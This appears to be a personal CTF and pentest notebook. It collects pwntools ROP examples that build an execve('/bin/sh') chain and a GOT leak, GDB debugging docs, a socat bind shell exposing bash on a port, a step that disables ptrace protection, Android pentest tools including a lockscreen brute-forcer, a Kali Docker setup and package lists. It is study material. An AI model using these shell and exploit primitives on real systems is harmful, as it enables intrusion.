context.binary = elf = ELF('/bin/sh')
libc = elf.libc
elf.address = 0xAA000000
libc.address = 0xBB000000
rop = ROP([elf, libc])
binsh = next(libc.search(b"/bin/sh\x00"))
rop.execve(binsh, 0, 0)
Show our ROP stack
print(rop.dump())
# 0x0000: 0xbb11c1e1 pop rdx; pop r12; ret
# 0x0008: 0x0 [arg2] rdx = 0
# 0x0010: b'eaaafaaa' <pad r12>
# 0x0018: 0xaa0061aa pop rdi; ret
# 0x0020: 0xbb1b75aa [arg0] rdi = 3139138986
# 0x0028: 0xaa005f73 pop rsi; ret
# 0x0030: 0x0 [arg1] rsi = 0
# 0x0038: 0xaa005824 execve
Extract the raw bytes for the ROP
print(hexdump(bytes(rop)))
# 00000000 e1 c1 11 bb 00 00 00 00 00 00 00 00 00 00 00 00 │····│····│····│····│
# 00000010 65 61 61 61 66 61 61 61 aa 61 00 aa 00 00 00 00 │eaaa│faaa│·a··│····│
# 00000020 aa 75 1b bb 00 00 00 00 73 5f 00 aa 00 00 00 00 │·u··│····│s_··│····│
# 00000030 00 00 00 00 00 00 00 00 24 58 00 aa 00 00 00 00 │····│····│$X··│····│
# 00000040
ROP chain
rop.chain command generate a chain that use gadgets available into the ELF binary.
Example:
[Shell python]
>>> elf = ELF('./jean_pile')
>>> rop = ROP(elf)
>>> rop.gadgets
{4195907: Gadget(0x400643, ['add esp, 8', 'ret'], [], 0x10),
4195906: Gadget(0x400642, ['add rsp, 8', 'ret'], [], 0x10),
4197002: Gadget(0x400a8a, ['leave', 'ret'], ['rbp', 'rsp'], 0x2540be407),
4197244: Gadget(0x400b7c, ['pop r12', 'pop r13', 'pop r14', 'pop r15', 'ret'], ['r12', 'r13', 'r14', 'r15'], 0x28),
4197246: Gadget(0x400b7e, ['pop r13', 'pop r14', 'pop r15', 'ret'], ['r13', 'r14', 'r15'], 0x20),
4197248: Gadget(0x400b80, ['pop r14', 'pop r15', 'ret'], ['r14', 'r15'], 0x18),
4197250: Gadget(0x400b82, ['pop r15', 'ret'], ['r15'], 0x10),
4197243: Gadget(0x400b7b, ['pop rbp', 'pop r12', 'pop r13', 'pop r14', 'pop r15', 'ret'], ['rbp', 'r12', 'r13', 'r14', 'r15'], 0x30),
4197247: Gadget(0x400b7f, ['pop rbp', 'pop r14', 'pop r15', 'ret'], ['rbp', 'r14', 'r15'], 0x20),
4196168: Gadget(0x400748, ['pop rbp', 'ret'], ['rbp'], 0x10),
4197251: Gadget(0x400b83, ['pop rdi', 'ret'], ['rdi'], 0x10),
4197249: Gadget(0x400b81, ['pop rsi', 'pop r15', 'ret'], ['rsi', 'r15'], 0x18),
4197245: Gadget(0x400b7d, ['pop rsp', 'pop r13', 'pop r14', 'pop r15', 'ret'], ['rsp', 'r13', 'r14', 'r15'], 0x28),
4195910: Gadget(0x400646, ['ret'], [], 0x8)}
>>> rop.puts(elf.got['puts'])
>>> hex(elf.got['puts'])
'0x602018'
>>> print(hexdump(bytes(rop)))
00000000 83 0b 40 00 00 00 00 00 18 20 60 00 00 00 00 00 │··@·│····│· `·│····│
00000010 60 06 40 00 00 00 00 00 │`·@·│····│
00000018
>>> print(rop.dump())
0x0000: 0x400b83 pop rdi; ret
0x0008: 0x602018 [arg0] rdi = got.puts
0x0010: 0x400660 puts
>>> rop.chain()
b'\x83\x0b@\x00\x00\x00\x00\x00\x18 `\x00\x00\x00\x00\x00`\x06@\x00\x00\x00\x00\x00'
>>> ','.join([hex(i) for i in rop.chain()])
'0x83,0xb,0x40,0x0, 0x0,0x0,0x0,0x0, 0x18,0x20,0x60,0x0, 0x0,0x0,0x0,0x0, 0x60,0x6,0x40,0x0 ,0x0,0x0,0x0,0x0'
# 64bits little endian
# 0x00000000 0x00400b83
# 0x00000000 0x00602018
# 0x00000000 0x00400660
Table of Contents
- Prerequisites
- Launching a Process Under GDB
- Attaching to a Running Process
- Debugging Foreign Architectures
- Troubleshooting
Pwntools has rich support for using a debugger in your exploit workflow, and debuggers are very useful when developing exploits when issues with exploits arise.
In addition to the resources here for debugging, you may want to enhance your GDB experience with one of the following projects:
Prerequisites
You should have both gdb and gdbserver installed on your machine.
You can check this easily with which gdb or which gdbserver.
If you find that you don't have them installed, they can easily be installed from most package managers.
$ sudo apt-get install gdb gdbserver
Launching a Process Under GDB
Launching a process under GDB while still being able to interact with that process from pwntools is a tricky process, but luckily it's all been sorted out and the process is pretty seamless.
To launch a process under GDB from the very first instruction, just use gdb.debug.
>>> io = gdb.debug("/bin/bash", gdbscript='continue')
>>> io.sendline('echo hello')
>>> io.recvline()
# b'hello\n'
>>> io.interactive()
This should automatically launch the debugger in a new window for you to interact
with. If it does not, or you see an error about context.terminal, check out the
section on Specifying a Terminal Window.
In this example, we passed in gdbscript='continue' in order for the debugger
to resume execution, but you can pass in any valid GDB script commands and they
will be executed when the debugged process starts.
Attaching to a Running Process
Sometimes you don't want to start your target under a debugger, but want to attach
to it at a certain stage in the exploitation process.
This is also handled seamlessly by Pwntools.
Local Processes
Generally, you will have created a process() tube in order to interact with the
target executable. You can simply pass that to gdb.attach() and it will magically
open a new terminal window with the target binary under the debugger.
>>> io = process('/bin/sh')
>>> gdb.attach(io, gdbscript='continue')
A new window should appear, and you can continue to interact with the process as you normally would from Pwntools.
Forking Servers
Sometimes the binary you want to debug has a forking server, and you want to debug the process you are connected to (rather than the server itself). This is also done seamlessly, as long as the server is running on the current machine.
Let's fake a server with socat!
>>> socat = process(['socat', 'TCP-LISTEN:4141,reuseaddr,fork', 'EXEC:/bin/bash -i'])
Then we connect to the remote process with a remote tube as usual.
>>> io = remote('localhost', 4141)
[x] Opening connection to localhost on port 4141
[x] Opening connection to localhost on port 4141: Trying 127.0.0.1
[+] Opening connection to localhost on port 4141: Done
>>> io.sendline('echo hello')
>>> io.recvline()
b'hello\n'
>>> io.lport, io.rport
It works! In order to debug the specific bash process our remote object, just
pass it to gdb.attach(). Pwntools will look up the PID of the remote end of the
connection and attempt to connect to it automatically.
>>> gdb.attach(io)
A debugger should appear automatically, and you can interact with the process.
Debugging Foreign Architectures
Debugging foreign architectures (like ARM or PowerPC) from an Intel-based system is as easy as running them under pwntools.
>>> context.arch = 'arm'
>>> elf = ELF.from_assembly(shellcraft.echo("Hello, world!\n") + shellcraft.exit())
>>> process(elf.path).recvall()
b'Hello, world!\n'
Instead of invoking process(...) just use gdb.debug(...).
>>> gdb.debug(elf.path).recvall()
b'Hello, world!\n'
Tips and Limitations
Processes running foreign architectures MUST be started with gdb.debug in order
to debug them, it is not possible to attach to a running process due to the way
that QEMU works.
It should be noted that QEMU has a very limited GDB stub, which is used to inform GDB where various libraries are, so debugging may be more difficult, and some commands will not work.
Pwntools recommends Pwndbg to handle this situation, since it has code specifically to handle debugging under a QEMU stub.
Troubleshooting
Behind the Scenes
Sometimes things just don't work, and you need to see what is happening internal to Pwntools with the debugger setup.
You can set the logging context globally (via e.g. context.log_level='debug')
or you can set it ONLY for the GDB session, via passing in the same argument.
You should see everything that's being handled for you behind the scenes. For example:
>>> io = gdb.debug('/bin/sh', log_level='debug')
[x] Starting local process '/home/user/bin/gdbserver' argv=[b'/home/user/bin/gdbserver', b'--multi', b'--no-disable-randomization', b'localhost:0', b'/bin/sh']
[+] Starting local process '/home/user/bin/gdbserver' argv=[b'/home/user/bin/gdbserver', b'--multi', b'--no-disable-randomization', b'localhost:0', b'/bin/sh'] : pid 34282
[DEBUG] Received 0x25 bytes:
b'Process /bin/sh created; pid = 34286\n'
[DEBUG] Received 0x18 bytes:
b'Listening on port 45145\n'
[DEBUG] Wrote gdb script to '/tmp/user/pwnxcd1zbyx.gdb'
target remote 127.0.0.1:45145
[*] running in new terminal: /usr/bin/gdb -q "/bin/sh" -x /tmp/user/pwnxcd1zbyx.gdb
[DEBUG] Launching a new terminal: ['/usr/local/bin/tmux', 'splitw', '/usr/bin/gdb -q "/bin/sh" -x /tmp/user/pwnxcd1zbyx.gdb']
[DEBUG] Received 0x25 bytes:
b'Remote debugging from host 127.0.0.1\n'
Specifying a Terminal Window
Pwntools [attempts to launch a new window][run_in_new_terminal] to container your debugger based on whatever windowing system you are currently using.
By default, it auto-detects:
- tmux or screen
- X11-based terminals like GNOME Terminal
If you are not using a supported terminal environment, or it does not work in the
way you want (e.g. horizontal vs vertical splits) you can add support by setting
the context.terminal environment variable.
For example, the following will use TMUX to split horizontally instead of the default.
>>> context.terminal = ['tmux', 'splitw', '-h']
Maybe you're a GNOME Terminal user and the default settings aren't working?
>>> context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
You can specify any terminal you like, and can even put the setting inside
~/.pwn.conf so that it's used for all of you scripts!
[context]
terminal=['x-terminal-emulator', '-e']
Environment Variables
Pwntools allows you to specify any environment variables you like via process(),
and the same is true for gdb.debug().
>>> io = gdb.debug(['bash', '-c', 'echo $HELLO'], env={'HELLO': 'WORLD'})
>>> io.recvline()
b'WORLD\n'
CWD and
Unfortunately, when using gdb.debug(), the process is launched under gdbserver
which adds its own environment variables. This may introduce complications when
the environment must be very carefully controlled.
>>> io = gdb.debug(['env'], env={'FOO':'BAR'}, gdbscript='continue')
>>> print(io.recvallS())
=/home/user/bin/gdbserver
FOO=BAR
Child exited with status 0
GDBserver exiting
This only occurs when you launch the process under a debugger with gdb.debug().
If you're able to start your process and then attach with gdb.attach(), you
can avoid this issue.
Environment Variable Ordering
Some exploits may require that certain environment variables are in a specific order. Python2 dictionaries are not ordered, which may exacerbate this issue.
In order to have your environment variables in a specific order, we recommend
using Python3 (which orders dictionaries based on insertion order), or using
collections.OrderedDict.
Unable to Attach to Processes
Modern Linux systems have a setting called ptrace_scope which prevents processes
that are not child processes from being debugged. Pwntools works around this
for any processes that it launches itself, but if you have to launch a process
outside of Pwntools and try to attach to it by pid (e.g. gdb.attach(1234)),
you may be prevented from attaching.
You can resolve this by disabling the security setting and rebooting your machine:
sudo tee /etc/sysctl.d/10-ptrace.conf <<EOF
kernel.yama.ptrace_scope = 0
EOF
argv0 and argc==0
Some challenges require that they are launched with argv[0] set to a specific
value, or even that it's NULL (i.e. argc==0).
It is not possible to launch a processs with this configuration via gdb.debug(),
but you can use gdb.attach(). This is because of limitations of launching
binaries under gdbserver.
Some useful script
#!/usr/bin/env python3
from pwn import *
import click
from enum import Enum
# For tmux console type
# context.terminal = ['tmux', 'splitw', '-h']
class InteractiveType(Enum):
"""Enum interactive type."""
NoInteractive = 0
Shell = 1
PythonShell = 3
class ArchType(Enum):
"""Enum Architecture type."""
aarch64 = 0,
arm = 1,
i386 = 2,
amd64 = 3
class OsType(Enum):
"""Enum OS type."""
linux = 1,
windows = 2
class EndianType(Enum):
"""Enum Endian type."""
big = 1,
little = 2
class LogLevel(Enum):
"""Enum log level type."""
debug = 1,
info = 2,
warn = 3,
error = 4
class EnumType(click.Choice):
"""Helper to ;ap Enum <=> click.Choice."""
def __init__(self, enum):
self.__enum = enum
super().__init__(enum.__members__)
def convert(self, value, param, ctx):
return self.__enum[super().convert(value, param, ctx)]
@click.group()
def cli():
pass
@cli.command()
@click.argument(
"target",
type=click.Path(exists=True, file_okay=True, dir_okay=False),
metavar="TARGET",
)
@click.option(
"-i",
"--interactive_type",
type=EnumType(InteractiveType),
default=InteractiveType.Shell.name,
show_default=True,
help="Select interactive type",
)
@click.option(
"-a",
"--arch",
type=EnumType(ArchType),
default=ArchType.amd64.name,
show_default=True,
help="Select interactive type",
)
@click.option(
"-o",
"--os",
type=EnumType(OsType),
default=OsType.linux.name,
show_default=True,
help="Select Os type",
)
@click.option(
"-e",
"--endian",
type=EnumType(EndianType),
default=EndianType.little.name,
show_default=True,
help="Select Endian type",
)
@click.option(
"-l",
"--log_level",
type=EnumType(LogLevel),
default=LogLevel.info.name,
show_default=True,
help="Select Log Level type",
)
@click.option(
"-b",
"--bits",
type=click.Choice(['32', '64']),
default='64',
show_default=True,
help="Select bits type",
)
def start(target: str, interactive_type: InteractiveType, arch:ArchType, os:OsType, endian:EndianType, log_level: LogLevel, bits: str):
"""Start debugging script."""
print(f"arch.name => {arch.name}")
print(f"os.name => {os.name}")
print(f"endian.name => {endian.name}")
print(f"log_level.name => {log_level.name}")
print(f"int(bits) => {int(bits)}")
# Define target context
context.update(arch=arch.name, os=os.name, endian=endian.name, log_level=log_level.name, bits=int(bits))
if interactive_type == InteractiveType.NoInteractive:
p = process(target)
p.wait()
elif interactive_type == InteractiveType.Shell:
# Break point
addr_before_check = "168f"
addr_after_check = "16b7"
# Script
gdb_script = f"""
break *($base +0x{addr_before_check})
break *($base +0x{addr_after_check})
"""
# GDB interactive debugging
p = gdb.debug(target, aslr=False, gdbscript=gdb_script)
p.interactive()
elif interactive_type == InteractiveType.PythonShell:
from IPython import embed
p = process(target)
embed()
if __name__ == "__main__":
cli()
Penetration Testing Application for Android
List for Android penetration testing applications and tools that can be used to aid in penetration testing. The following are the most commonly used applications. Feel free to suggest new applications and tools at comments section below.
List of Android Penetration Testing Tools and Applications
- Magisk Manager - Systemless rooting system.
- EdXposed Manager - Companion Android application for EdXposed.
- BusyBox - Android busyBox.
- SQLite Editor Master - SQLite Editor.
- Root Explorer File Manager for Root Users (Root Required).
- CiLocks - Python script to brute force android lockscreen password.
- Network Analyzer - Network Analyzer for Android.
- Packet Capture - Packet capture/Network traffic sniffer.
- Material Terminal - Terminal for Android.
- Gplaycli Cli Tool to download APK form PlayStore.
Some Reference
- Mobile Pentesting 101 – How to set up your Android Environment
- Root detection and SSL pinning bypass
- Mobile Pentesting 101 – Bypassing Biometric Authentication
- Github - fire1ce/3os.org
- Github - ivan-sincek/android-penetration-testing-cheat-sheet
- Androidre
- Running Android Emulator in a Docker Container
- RedFox Sec tutorial
- awesome-mobile-CTF
Red Fox TRaining
Here is some training/tuto to Android pentest from Red Fox Sec blog.
- Exploiting Android WebView Vulnerabilities
- Exploiting Broadcast Receivers
- Exploiting Content Providers
- Android Pentesting with Drozer
- Android Tapjacking Vulnerability
- Broken Cryptography in Android Applications
- Android Pentesting Methodology (Pt. 1)
- Android Pentesting Methodology (Pt. 2)
- Android Pentesting Methodology (Pt. 3)
- Android Root Detection Bypass Using Frida
- SSL Pinning Bypass For Android Using Frida
Exploiting Android WebView Vulnerabilities
https://redfoxsec.com/blog/exploiting-android-webview-vulnerabilities/
Exploiting Broadcast Receivers
https://redfoxsec.com/blog/exploiting-broadcast-receivers/
Exploiting Content Providers
https://redfoxsec.com/blog/exploiting-content-providers/
Android Pentesting with Drozer
https://redfoxsec.com/blog/android-pentesting-with-drozer/
Android Tapjacking Vulnerability
https://redfoxsec.com/blog/android-tapjacking-vulnerability/
Broken Cryptography in Android Applications
https://redfoxsec.com/blog/broken-cryptography-android-applications/
Android Pentesting Methodology
- https://redfoxsec.com/blog/android-pentesting-methodology-part-1/
- https://redfoxsec.com/blog/android-pentesting-methodology-part-2/
- https://redfoxsec.com/blog/android-pentesting-methodology-part-3/
Android Pentesting Methodology
- https://redfoxsec.com/blog/android-pentesting-methodology-part-1/
- https://redfoxsec.com/blog/android-pentesting-methodology-part-2/
- https://redfoxsec.com/blog/android-pentesting-methodology-part-3/
Android Pentesting Methodology
- https://redfoxsec.com/blog/android-pentesting-methodology-part-1/
- https://redfoxsec.com/blog/android-pentesting-methodology-part-2/
- https://redfoxsec.com/blog/android-pentesting-methodology-part-3/
Android Root Detection Bypass Using Frida
Kali in docker for pentest
Mettre Kali en docker afin d'éviter les VMs.
Il faut un docker et docker-compose. Puis définir des alias
Docker-compose.yml
version: "3.3"
services:
kali:
build: .
image: kali_custom
container_name: kali
hostname: kalilinux
environment:
- DISPLAY=$DISPLAY
volumes:
- '/tmp/.X11-unix:/tmp/.X11-unix:rw'
- '/home/user/pentest:/pentest:rw'
network_mode: host
stdin_open: true # docker run -i
tty: true # docker run -t
cap_add:
- NET_RAW
- NET_ADMIN
Dockerfile
FROM kalilinux/kali-rolling
RUN apt update && apt upgrade -y
RUN apt install \
# Network
curl iputils-ping tcpdump netcat-traditional iproute2 \
dnsutils burpsuite nmap socat whois gobuster wireshark-common \
tshark \
netdiscover \
# Exploit
metasploit-framework \
build-essential git libdistorm3-dev yara libraw1394-11 libcapstone-dev capstone-tool tzdata \
# python
python3 python3-dev libpython3-dev python3-pip python3-setuptools python3-wheel \
# Fuzzing
afl++ \
# Android
apktool jadx dex2jar jd-gui\
# Forensics
forensics-colorize guymager ollydbg \
exiftool file sleuthkit tree \
# sdeep
libfuzzy-dev libfuzzy2 ssdeep \
# Social engineering
maltego veil \
# Reverse
# hydra hydra-gtk
# ghidra \
binwalk \
# Cracking
hashcat wordlists john john-data \
# Utils
zsh libssl-dev \
# software-properties-common \
apt-transport-https rlwrap \
-y
RUN apt install ghidra -y
RUN apt install wget
RUN mkdir tools && wget http://www.caesum.com/handbook/Stegsolve.jar -O stegsolve.jar && chmod +x stegsolve.jar
RUN apt install testdisk proxychains nano -y
# Volatility
# ?pycrypto?
RUN python3 -m pip install -U distorm3 pillow openpyxl ujson pytz ipython capstone yara-python --break-system-packages
RUN python3 -m pip install -U git+https://github.com/volatilityfoundation/volatility3.git --break-system-packages
# Arsenal Pentest Orange Framework
RUN python3 -m pip install -U arsenal-cli --break-system-packages
# Cheat sh
RUN curl -s https://cht.sh/:cht.sh | tee /usr/local/bin/cht.sh && chmod +x /usr/local/bin/cht.sh
# Identify anything
RUN python3 -m pip install -U pywhat --break-system-packages
# Clean up
RUN apt clean autoclean \
&& apt autoremove --yes \
&& rm -rf /var/lib/{apt,dpkg,cache,log}/ \
&& rm -rf /var/lib/apt/lists/*
RUN echo 'export PATH=/home/username/.local/bin:$PATH' >> ~/.profile
WORKDIR /pentest
CMD ["/bin/zsh"]
Alias
A définir dans .zshrc
...
kali () {
if [[ $(systemctl is-active docker.service) == "inactive" ]]
then
sudo systemctl start docker
fi
xhost +local:docker
pushd /media/user/Backup/kali_docker > /dev/null
docker-compose up -d --build
popd > /dev/null
echo "[+] Kali is running."
echo "[+] docker exec -it kali zsh"
}
kali_shell() {
running=$(docker container inspect -f '{{.State.Running}}' kali 2>/dev/null)
if [ "$running" = "true" ]
then
docker exec -it kali zsh
else
echo "[-] kali container is not running"
fi
}
...
Wireshark
Description
Wireshark is an open-source tool for capturing and analyzing network packets. This tool is primarily used to capture network traffic on a machine’s interfaces. These captures can then be saved in PCAP files (with a .pcap extension) for analysis.
Installation
- For Linux (Debian/Ubuntu) :
sudo apt-get install wireshark
- For Windows : you can download the installer from the official website (https://www.wireshark.org/download.html) and follow the installation instructions.
Use cases
-
Network troubleshooting : to identify and resolve network issues such as packet loss, delays, and configuration errors.
-
Network security : in the context of intrusion detection, malware analysis, and network security monitoring to detect flows related to suspicious activities.
Main features
- Advanced filtering : allows filtering packets based on criteria such as IP address, port, protocol, etc., to focus on specific elements.
- Detailed analysis : provides in-depth packet analysis, including header inspection, data stream tracking, session reconstruction, etc.
- Support for numerous protocols : supports a wide range of network protocols, such as TCP, UDP, HTTP, DNS, FTP, and many more.
- Data export : analysis results can be exported in various formats such as CSV, XML, and PCAP.
- Graphs and statistics : allows you to generate graphs and statistics to visualize network performance.
TShark
"TShark" is a CLI version of Wireshark, providing the same capabilities for recording and analyzing network captures, but through the command line only. TShark can be useful in many cases, including :
- Automated processing via scripts ;
- Data extraction ;
- Server usage ;
- ...
How it works
Example of Usage
Suppose you are facing latency issues on a local network, you can launch Wireshark and select the network interface to monitor. By applying a filter to capture only relevant traffic and filtering traffic to or from a specific IP address, for example, you can analyze the results to identify sources of latency, such as transmission delays or packet losses.
- Analysis of Captured Data Packets on a Network
- Data Flow Tracking Feature (UDP, TCP...)
- Packet Filtering by IP Address
- In-Depth Analysis of a Frame
- Usage of TShark
Here is an example of using tshark, let’s imagine a significant network capture with a large number of packets, but we are only interested in the DNS and HTTP protocols. We can extract packets containing these protocols into a new capture using Tshark :
4 tshark -r capture_example.pcapng -Y 'http || dns' -w out.pcapng
We can then read the capture with tshark :
$ tshark -r out.pcapng
1 0.000000000 192.168.121.3 → 192.168.202.49 DNS 103 Standard query response 0x6f3d A lost.com A 104.21.5.178 A 172.67.133.176
2 0.000000209 192.168.121.3 → 192.168.202.49 DNS 127 Standard query response 0x8802 AAAA lost.com AAAA 2606:4700:3033::6815:5b2 AAAA 2606:4700:3037::ac43:85b0
3 0.009499422 192.168.5.74 → 104.21.5.178 HTTP 141 GET / HTTP/1.1
4 0.377068826 104.21.5.178 → 192.168.5.74 HTTP 73 Continuation
Tips
- Display only TCP payload
Filter -> tcp.payload
Python pyenv Lab.
ctf_env_39
-
Python 3.9.19
-
pip
alembic==1.13.1
androguard==3.4.0a1
annotated-types==0.7.0
anyio==4.4.0
apkInspector==1.2.3
argon2-cffi==23.1.0
argon2-cffi-bindings==21.2.0
arrow==1.3.0
asn1crypto==1.5.1
astroid==3.2.2
asttokens==2.4.1
async-lru==2.0.4
attrs==23.2.0
Automat==22.10.0
Babel==2.15.0
banal==1.0.6
bcrypt==4.1.3
beautifulsoup4==4.12.3
black==24.4.2
bleach==6.1.0
blinker==1.8.2
capstone==5.0.1
certifi==2024.2.2
cffi==1.16.0
charset-normalizer==3.3.2
cli_helpers==2.3.1
click==8.1.7
colorama==0.4.6
colored-traceback==0.3.0
comm==0.2.2
configobj==5.0.8
constantly==23.10.4
contourpy==1.2.1
cryptography==42.0.7
cssselect==1.2.0
cycler==0.12.1
dataset==1.6.2
debugpy==1.8.1
decorator==5.1.1
defusedxml==0.7.1
delegator.py==0.1.1
dill==0.3.8
et-xmlfile==1.1.0
exceptiongroup==1.2.1
executing==2.0.1
fastjsonschema==2.19.1
filelock==3.14.0
flake8==7.0.0
Flask==3.0.3
fonttools==4.53.0
fqdn==1.5.1
frida==16.3.1
frida-tools==12.4.3
graphviz==0.20.3
greenlet==3.0.3
h11==0.14.0
httpcore==1.0.5
httpx==0.27.0
hyperlink==21.0.0
idna==3.7
importlib_metadata==7.1.0
importlib_resources==6.4.0
incremental==22.10.0
intervaltree==3.1.0
ipykernel==6.29.4
ipython==8.18.1
isoduration==20.11.0
isort==5.13.2
itemadapter==0.9.0
itemloaders==1.3.0
itsdangerous==2.2.0
jedi==0.19.1
Jinja2==3.1.4
jmespath==1.0.1
json5==0.9.25
jsonpointer==2.4
jsonschema==4.22.0
jsonschema-specifications==2023.12.1
jupyter-events==0.10.0
jupyter-lsp==2.2.5
jupyter_client==8.6.2
jupyter_core==5.7.2
jupyter_server==2.14.1
jupyter_server_terminals==0.5.3
jupyterlab==4.2.1
jupyterlab_pygments==0.3.0
jupyterlab_server==2.27.2
kiwisolver==1.4.5
litecli==1.11.0
loguru==0.7.2
lxml==5.2.2
Mako==1.3.5
MarkupSafe==2.1.5
matplotlib==3.9.0
matplotlib-inline==0.1.7
mccabe==0.7.0
mistune==3.0.2
mutf8==1.0.6
myhdl==0.11.45
mypy==1.10.0
mypy-extensions==1.0.0
nbclient==0.10.0
nbconvert==7.16.4
nbformat==5.10.4
nest-asyncio==1.6.0
networkx==3.2.1
notebook_shim==0.2.4
numpy==1.26.4
objection==1.11.0
opencv-python==4.9.0.80
openpyxl==3.1.3
oscrypto==1.3.0
overrides==7.7.0
packaging==24.0
pandas==2.2.2
pandocfilters==1.5.1
paramiko==3.4.0
parsel==1.9.1
parso==0.8.4
pathspec==0.12.1
pexpect==4.9.0
pillow==10.3.0
platformdirs==4.2.2
plotly==5.22.0
plumbum==1.8.3
prettytable==3.10.0
prometheus_client==0.20.0
prompt_toolkit==3.0.45
Protego==0.3.1
psutil==5.9.8
ptyprocess==0.7.0
pure-eval==0.2.2
pwntools==4.12.0
pyasn1==0.6.0
pyasn1_modules==0.4.0
pycodestyle==2.11.1
pycparser==2.22
pydantic==2.7.2
pydantic_core==2.18.3
PyDispatcher==2.0.7
pydot==2.0.0
pyelftools==0.31
pyfiglet==1.0.2
pyflakes==3.2.0
Pygments==2.18.0
pylint==3.2.2
PyNaCl==1.5.0
pyOpenSSL==24.1.0
pyparsing==3.1.2
pyserial==3.5
PySocks==1.7.1
pytesseract==0.3.13
python-dateutil==2.9.0.post0
python-json-logger==2.0.7
pytz==2024.1
PyYAML==6.0.1
pyzmq==26.0.3
quark-engine==24.5.1
queuelib==1.7.0
r2pipe==1.8.0
referencing==0.35.1
requests==2.32.3
requests-file==2.1.0
rfc3339-validator==0.1.4
rfc3986-validator==0.1.1
ROPGadget==7.4
rpds-py==0.18.1
rpyc==6.0.0
rzpipe==0.6.0
Scrapy==2.11.2
semver==2.13.0
Send2Trash==1.8.3
service-identity==24.1.0
sherlock==0.4.1
six==1.16.0
sniffio==1.3.1
sortedcontainers==2.4.0
soupsieve==2.5
SQLAlchemy==1.4.52
sqlparse==0.5.0
stack-data==0.6.3
tabulate==0.9.0
tenacity==8.3.0
terminado==0.18.1
tinycss2==1.3.0
tldextract==5.1.2
tomli==2.0.1
tomlkit==0.12.5
tornado==6.4
tqdm==4.66.4
traitlets==5.14.3
Twisted==24.3.0
types-python-dateutil==2.9.0.20240316
typing_extensions==4.12.0
tzdata==2024.1
unicorn==2.0.1.post1
unix-ar==0.2.1
uri-template==1.3.0
urllib3==2.2.1
w3lib==2.1.2
wcwidth==0.2.13
webcolors==1.13
webencodings==0.5.1
websocket-client==1.8.0
Werkzeug==3.0.3
zipp==3.19.1
zope.interface==6.4.post2
zstandard==0.22.0
volatility_27
-
Python 2.7.18
-
pip
certifi==2021.10.8
chardet==4.0.0
construct==2.10.54
distorm3==3.5.2
docopt==0.6.2
idna==2.10
pycrypto==2.6.1
requests==2.27.1
urllib3==1.26.16
vol==0.1.1
frida_env
-
Python 3.10.10
-
pip
anyio==3.7.0
argon2-cffi==21.3.0
argon2-cffi-bindings==21.2.0
arrow==1.2.3
astroid==3.0.1
asttokens==2.2.1
async-lru==2.0.2
attrs==23.1.0
Babel==2.12.1
backcall==0.2.0
beautifulsoup4==4.12.2
black==23.10.0
bleach==6.0.0
certifi==2023.5.7
cffi==1.15.1
charset-normalizer==3.1.0
click==8.1.7
colorama==0.4.6
comm==0.1.3
debugpy==1.6.7
decorator==5.1.1
defusedxml==0.7.1
dill==0.3.7
exceptiongroup==1.1.1
executing==1.2.0
fastjsonschema==2.17.1
flake8==6.1.0
fqdn==1.5.1
frida==16.1.4
frida-tools==12.3.0
idna==3.4
ipykernel==6.23.3
ipython==8.14.0
isoduration==20.11.0
isort==5.12.0
jedi==0.18.2
Jinja2==3.1.2
json5==0.9.14
jsonpointer==2.4
jsonschema==4.17.3
jupyter-events==0.6.3
jupyter-lsp==2.2.0
jupyter_client==8.3.0
jupyter_core==5.3.1
jupyter_server==2.6.0
jupyter_server_terminals==0.4.4
jupyterlab==4.0.2
jupyterlab-pygments==0.2.2
jupyterlab_server==2.23.0
lief==0.13.2
MarkupSafe==2.1.3
matplotlib-inline==0.1.6
mccabe==0.7.0
mistune==3.0.1
mypy-extensions==1.0.0
nbclient==0.8.0
nbconvert==7.6.0
nbformat==5.9.0
nest-asyncio==1.5.6
notebook_shim==0.2.3
overrides==7.3.1
packaging==23.1
pandocfilters==1.5.0
parso==0.8.3
pathspec==0.11.2
pexpect==4.8.0
pickleshare==0.7.5
platformdirs==3.8.0
prometheus-client==0.17.0
prompt-toolkit==3.0.38
psutil==5.9.5
ptyprocess==0.7.0
pure-eval==0.2.2
pycodestyle==2.11.1
pycparser==2.21
pyflakes==3.1.0
Pygments==2.15.0
pylint==3.0.2
pyrsistent==0.19.3
python-dateutil==2.8.2
python-json-logger==2.0.7
PyYAML==6.0
pyzmq==25.1.0
requests==2.31.0
rfc3339-validator==0.1.4
rfc3986-validator==0.1.1
Send2Trash==1.8.2
six==1.16.0
sniffio==1.3.0
soupsieve==2.4.1
stack-data==0.6.2
terminado==0.17.1
tinycss2==1.2.1
tomli==2.0.1
tomlkit==0.12.1
tornado==6.3.2
traitlets==5.9.0
typing_extensions==4.5.0
uri-template==1.3.0
urllib3==2.0.3
wcwidth==0.2.6
webcolors==1.13
webencodings==0.5.1
websocket-client==1.6.1
Dev.
Training
Language
| Name | Purpose | Imperative | Object-oriented | Functional | Procedural | Generic | Reflective | Other paradigms | Standardized |
|---|---|---|---|---|---|---|---|---|---|
| Python | Application, general, web, scripting, artificial intelligence, scientific computing | Yes | Yes | Yes | Yes | Yes | Yes | Aspect-oriented | De facto standard via Python Enhancement Proposals (PEPs) |
| Rust | Application, server-side, system, web | Yes | Yes | Yes | Yes | Yes | No | Concurrent | No |
Python
pyenv
Dev. environment setup.
linter
Python Code Quality: Tools & Best Practices
Error pip install
- Error message with
pip install
$ pip install pwntools
error: externally-managed-environment
× This environment is externally managed
╰─> To install Python packages system-wide, try 'pacman -S
python-xyz', where xyz is the package you are trying to
install.
If you wish to install a non-Arch-packaged Python package,
create a virtual environment using 'python -m venv path/to/venv'.
Then use path/to/venv/bin/python and path/to/venv/bin/pip.
If you wish to install a non-Arch packaged Python application,
it may be easiest to use 'pipx install xyz', which will manage a
virtual environment for you. Make sure you have python-pipx
installed via pacman.
note: If you believe this is a mistake, please contact your Python installation or OS distribution provider. You can override this, at the risk of breaking your Python installation or OS, by passing --break-system-packages.
hint: See PEP 668 for the detailed specification.
- Soluce
The --break-system-packages flag in pip allows to override the externally-managed-environment error and install Python packages system-wide.
pip install package_name --break-system-packages
Snippets
Some useful snippet code for CTF
| Folder | Tags | Description |
|---|---|---|
| MovieToken | tesseract Open-CV Pillow Click | Extract text information from movie. |
| MP4 PNG Regular Expression | ||
| GetPostRequestPydantic | Request pydantic | Send and receive request. |
| Logging functools::partial | ||
| TcpChallenges | Socket | Challenge code with game server.. |
| Regular Expression | ||
| FullClickSnippet | Click | Some snippet about click. |
Click
Quelques snippets d'utilisation de click
Requirements
click==8.*
PyYAML==6.*
pytoml==0.1.21
Basic
Utilisation d'un argument positional avec l'aide en ligne.
